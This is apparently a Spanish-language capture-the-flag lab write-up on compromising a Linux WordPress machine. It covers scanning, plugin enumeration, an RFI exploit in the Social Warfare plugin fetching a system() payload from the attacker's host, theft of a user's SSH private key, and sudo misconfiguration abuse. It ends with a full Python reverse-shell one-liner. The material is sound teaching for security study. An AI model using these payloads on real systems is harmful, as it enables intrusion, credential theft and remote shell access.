


## Conexión a la máquina/Setup
Lo primero que debemos hacer es conectarnos a la máquina para lo cual hay que:
- Desplegar la VPN
- Empezar la máquina para crear su instancia 

	> [!WARNING]
	> **IMPORTANTE:** _Tenemos 3 horas gratis para estos labs_

Una vez tenemos el acceso a nuestra máquina víctima empieza el juego.

## Reconocimiento y Explotación
Lo primero y como siempre es cerciorarnos de que podemos acceder a la máquina, realizando un `ping` a la dirección IP víctima para verificar que existe conexión. Además de estos resultados podemos obtener información como el _TTL_ que nos puede desvelar si la máquina es Linux (TTL ~= 64) o Windows (TTL ~= 128), aunque esto es falseable y no podemos fiarnos completamente.
Una vez verificamos que podemos conectarnos a la máquina lo primero que debemos realizar es el escaneo con _nmap_, para averiguar qué servicios y puertos están abiertos y si existe incluso alguna vulnerabilidad asociada a los mismos. 
```bash
# Este es el comando que se utilizó en la tutoría
nmap -sV -v --open -Pn -T4 [ip]
```
En los resultados reportados encontramos que el SO parece ser un Linux, como intuíamos por el TTL, y se reportan también siguientes puertos abiertos:
- Puerto 22 - SSH --> Versión 8.2p1 
- Puerto 80 - HTTP --> Apache 2.4.41

Conociendo ahora qué puertos hay activos en la máquina vamos a lanzar unos scripts de enumeración con la flag `-sC` sobre los mismos de la siguiente forma:
```bash
nmap -sV -v --open -Pn -T4 [ip] -p22,80 -sC
```
Una vez ejecutado obtenemos los siguientes resultados:
> [!note] 
> Insertar imagen con los resultados

Resaltar que lo obtenido no nos brinda mucha información relevante o posibles vectores de ataque, ya que los métodos aceptados por el servidor _apache_ no son críticos como podría serlo un _PUT_ y el _SSH_ no parece mostrar ningún tipo de acceso anónimo o por fuerza bruta destacable, aunque verificamos esto buscando si existe algún exploit relacionado a esta versión de SSH que podemos explotar, spoiler: no parece haber nada.
> [!note] 
> Lo más normal es que en este tipo de máquinas con estos puertos abiertos el vector de ataque sea el puerto 80

Dicho esto, vamos a revisar entonces la página web que hemos encontrado, aunque no sin antes dejar en segundo plano un escaneo de _nmap_ a todos los puertos (ya que el primero realizado como no hemos especificado los puertos solo se hace sobre el top1000).
```bash
nmap -sV -v --open -Pn -T4 [ip] -p- 
```

En la página web encontramos a simple vista únicamente una imagen, y si revisamos el código fuente tampoco parece haber nada relevante o destacable. Así que como siguiente paso a dar vamos a hacer un poco de __fuzzing__ sobre la misma a ver si encontramos algún tipo de directorio oculto que pueda ser interesante. Para esta tarea vamos a utilizar la herramienta _dirsearch.py_ aunque hay otras opciones como _gobuster_, _dirbuster_...
```bash
dirsearch -u [url] -w [wordlists] -t [n_hilos] -e [extensiones_archivos]
```
Una vez realizado el fuzzing encontramos que existe el directorio ``/wordpress`` y al entrar en el encontramos una página web con estructura de blog de la cual podemos ya extraer información manualmente con algo de hovering, revisando las publicaciones en busca de nombres de usuario, comentarios, lo que sea que nos de información, incluso revisando el código fuente.
Así de primeras vemos que existe un usuario que se llama admin, incluso pulsando en él vemos que nos redirige a la ruta `/wordpress/index.php/author/admin/`. Existe una antigua vulnerabilidad en wordpress para intentar listar más usuarios probando con números de esta forma: ``/wordpress/index.php/?author=[numero]``, pero los resultados probando un poco a mano no parecen indicar que haya nada más relevante.

Ahora bien, como hemos dicho, revisar el código fuente es importante, podemos encontrar directorios en links, información de versiones, (siendo wordpress con las tags "_generator_" por ejemplo), entre otras cosas.
En este caso, precisamente encontramos asociado a este generator que el wordpress es la versión 5.4.2 y algunos subdirectorios más que podríamos investigar un poco. Otra cosa a filtrar sería el tema de los __plugins__ que realmente son el vector de ataque principal más que en sí quizás el wordpress como tal. La forma de verlos sería en `/wp-content/plugins` o incluso `/wp-content/plugins/[nombre_plugin]` pudiendo navegar por la información de estos.
Otra de las cosas a consultar es el archivo _xmlrpc.php_ que en este caso nos reporta que es únicamente accesible por POST y no por GET. Este podría ser un vector de ataque de fuerza bruta o denegación de servicios, pero en vista de que queremos obtener acceso a la máquina para su explotación vamos a explorar más opciones.
También podríamos consultar el ``/wp-login.php``, que es la ruta por defecto de login de Wordpress y quizás con credenciales por defecto hay suerte, aunque en este caso no lo parece, __PERO__ hay que resaltar que al probar con username = admin nos da un mensaje distinto, informándonos de que el usuario existe pero la contraseña es incorrecta, por lo que es una forma de por fuerza bruta listar posibles usuarios. Además los tiempos de espera si el usuario existe o no son diferentes ya que en caso de existir comprueba la contraseña y sino no, así que de esta forma también es posible averiguar que usuarios están registrados.
Una recomendación también es probar `/wp-login.php/?action=registration` ya que en caso de que esté activado podríamos registrarnos en la aplicación web (en este caso no está habilitado).

Bien, todo esto que hemos hecho a mano está bien, pero contar con herramientas como WP-Scan es muy útil porque automatizar gran parte del trabajo y son más eficaces que nosotros revisando y probando por fuerza bruta, etc. Así que vamos a lanzarla:
```bash
wpscan -u [url] --enumerate u,p # Con esto último enumeramos plugins y usuarios 
```
> [!note] 
> Insertar imagen con los resultados

>[!seealso]
>Adjunto el enlace que se comenta en clase para explotar más en profundidad el xmlrpc.
>https://www.elladodelmal.com/2017/02/ataques-al-corazon-de-tu-wordpress-en.html

Bien, en función de lo sacado <mark style="background: #FF5582A6;">cuál sería el próximo paso?</mark> Pues podríamos seguir explorando los __plugins__ que como hemos visto no están actualizados.
-  Social Warfare v3.5.0 --> al buscar en exploit-db o goolge vemos que existe un RCE para versiones anterioes a la 3.5.3.
  Podríamos usar el exploit pero vamos a hacerlo manualmente con lo que indica en la [página de wpscan](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/)
  Para esto vamos a crear un archivo con el siguiente contenido dentro:
	```php
	//lo llamaremos payload.txt
	<pre>system('cat /etc/passwd')</pre>
	```
	Y una vez hecho esto vamos a levantar un servicio con python: `python3 -m http.server 80` para conseguir así ahora poder llamar con una petición a nuestro servidor web con el archivo que hemos creado desde el servidor de la página wordpress (RFI = remote file inclusion). Tiene pinta que al subir un fichero con extensión .txt pero con contenido .php, al parsearlo bypasseamos de alguna forma para que se interprete como un php.
	```bash
	 http://[ip]/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://[my_ip]/payload.txt
	```
	Al visitar esta página efectivamente se ejecuta el comando que habíamos indicado y lo que podemos hacer como es lógico es mandarnos una shell, pero antes podríamos intentar probar a leer algún archivo que requiera de privilegios para saber como qué usuario estamos ejecutando estos comandos ya que quizás podría darse el caso de poder por ejemplo leer el `/etc/shadow`, conseguir los hashes de contraseñas, en especial de root y hacer una escalada de privilegios casi directa.
	Para esto, bastaría ejecutar un `whoami` y vemos que somos `www-data`, así que ahora si, vamos a mandarnos una _revershell_ poniéndonos antes obviamente en escucha por algún puerto para obtener, para lo cual es muy útil la página: [revshell.com](https://www.revshells.com/)
	
	 

## Post-Explotación / Escalada de Privilegios
Ya tenemos acceso a la máquina, el siguiente desafío a afronatar es <mark style="background: #BBFABBA6;">la escalada de privilegios</mark>.
Lo primero que vamos a hacer es chequear el `/etc/passwd` para averiguar qué usuarios se han creado manualmente en el sistema (aquellos que siguen la estructura `username:x:1000` o un número mayor de 1000 son usuarios que se han creado de forma manual).
A partir de aquí, cosas que podemos consultar:
- Si los usuarios tienen bash y un su directorio asociado a ``/home`` podemos averiguar cuáles son haciendo un `ls /home` aunque este comando no tiene por qué funcionar si no se cumplen las premisas indicadas.
- Intentar listar el `/etc/passwd` que obviamente en este caso no podemos por los privilegios que tenemos
- Ver si tenemos algún permiso de sudo --> `sudo -l`
- `netstat -ano` --> donde podemos ver qué servicios hay abiertos tanto localmente como para afuera (todo lo que sea `0.0.0.0:[puerto]`).
- `ps -fea` --> para ver los procesos activos en la máquina
- `cat /etc/crontab` --> para ver si hay alguna tarea programada fuera de las de por defecto
- `cat /etc/exports` --> para ver si encontramos algo como _mounts_
- ...

Aparte de esto y sabiendo que nos encontramos en un servidor web, que tiene vinculado unas bases de datos estaría bien investigar acerca de posibles credenciales en los directorios y archivos que podemos encontrar. Concretamente partimos de directorio `/wordpress/wp-admin` así que si vamos a la raíz quizás encontramos algo más, ya que listando este no parece haber ningún archivo relevante.
En la raíz encontramos un archivo sospechoso: _secretkey.txt_ pero al listarlo y desencriptar el contenido que está en _base64_ vemos que es un Rabbit Hole.
Dicho esto, teniendo en cuenta que existe una bbdd asociada al wodpress, para que esta funcione con el login debe haber algún tipo de conexión y esto se gestiona por el archivo `wp-config.php`. En este es posible que a veces nos encontremos los credenciales hardcodeados, como en este caso averiguando ``user:password`` con los siguientes resultados: `wp-user:password`. Sabiendo esto podríamos acceder a la bbdd e intentar dumpear los credenciales.

Nosotros vamos a seguir enumerando y lo siguiente va a ser intentar acceder a los directorios de los usuarios, que podemos conocer revisando el ``/etc/passwd``, y que en este caso están ambos en `/home`. Vamos a intentar entrar en el directorio del usuario _max_ y listamos su contenido.
>[!important]
>Listar siempre el contenido de los directorios mostrando el contenido oculto porque nos podríamos dejar cosas.

En este caso hay varios archivos .txt, entre los que se encuentra la primera flag y conseguimos listarlos con el usuario actual, pero lo realmente llamativo es la __carpeta .ssh__, donde encontramos las claves privada y pública del usuario _Max_, pudiendo así copiar su cable privada (id_rsa) para desde nuestro entorno kali conectarnos a la máquina con este user: 
```bash
ssh -i id_rsa [ip] -l max
```
Al hacer esto salta un mensaje de error, ya que la clave no tiene los permisos correctos tras haberla copiado en nuestra máquina así que hay que modificarlos previamente y entonces la conexión será fructífera:
```bash
# Modificamos permisos de la clave
chmod 600 id_rsa
# Conexión SSH
ssh -i id_rsa [ip] -l max
```

Hemos hecho la primera escalada, ya somos _Max_, y de nuevo toca escalar. Lo primero a realizar siempre que conseguimos ser un usuario:
- `sudo -l` --> sobre qué tengo permisos de sudo sin necesidad de meter la contraseña. En este caso nos indica que sobre `/usr/sbin/service` tenemos sudo, con lo cual podríamos buscar en [gtfobins](https://gtfobins.github.io/) acerca de si existe una forma de escalar privilegios con este binario
	```bash
	sudo service ../../bin/sh
	```
	**PERO** al probar vemos que nos pide la contraseña lo cual como que no cuadra ¿cierto? Pues bien, si nos fijamos mejor en el resultado del `sudo -l` vemos que indica:
	  
	  
	  
	  Esto lo que quiere decir es que cuando ejecutamos esto por defecto lo estamos haciendo como _root_, pero en este caso hay que ejecutarlo como _steven_:
	  ```bash
	  sudo -u steven ../../bin/sh
	  ```

Con lo cual de esta forma hemos conseguido escalar a _Steven_ pero aún seguimos sin ser _root_

De nuevo al probar con `sudo -l` encontramos un comando posible a ejecutar y esta vez como _root_, así podríamos intentar seguir el mismo proceso pero al intentar ejecutar ese comando nos daríamos cuenta de que no existe. Si vamos a la ruta, no existe si quiera, lo que seguramente significa que era un fichero antiguo con estos permisos que se eliminó, así que lo más lógico es que si tenemos permisos de escritura (spoiler: si tenemos) podríamos crear este fichero en el path indicado y aprovecharnos de estos permisos mal configurados para lanzarnos una shell como _root_.
En este caso nos vamos a lanzar una [revershell con python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) que sabemos que está instalado (comprobando si existen versiones en el equipo y cuáles).
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```